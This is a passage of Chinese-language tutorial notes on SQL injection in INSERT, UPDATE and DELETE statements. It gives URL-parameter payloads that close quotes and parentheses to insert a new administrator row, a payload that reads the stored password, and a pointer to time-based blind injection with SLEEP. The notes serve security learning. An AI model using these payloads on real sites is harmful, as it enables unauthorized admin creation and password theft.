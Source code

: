 可以直接控制表名插入新管理员

```
?table=wp_user values(2,'newadmin','newadmin') %23
```

### 注入点位于VALUES

```sql
INSERT INTO wp_user VALUES (2,2,'username','1')
```

如果后面对应的是管理员标识，闭合单引号和括号，即可多添加一条语句

```
?is_admin=1'),(2,2,'admin','0') %23
```



即可插入一个新的管理员

```sql
INSERT INTO wp_user VALUES (2,2,'username','1'),(2,2,'admin','0')
```

或者在新闻添加等位置插入查询语句

```
INSERT INTO wp_user VALUES (2,2,'username','SELECT pwd FROM wp_user LIMIT 1')
```

然后在对应输出的地方就可以看到查询的pwd

## UPDATE

```sql
UPDATE wp_user SET id=2 WHERE user = '23'
```

如果id可控，即可修改多个字段内容，甚至user也是可控的

## DELETE

```sql
DELETE FROM wp_news WHERE id=$_GET['ID']
```

为了保证不影响正常数据，通常使用'AND SLEEP(1)保证为FALSE,后续就是时间盲注
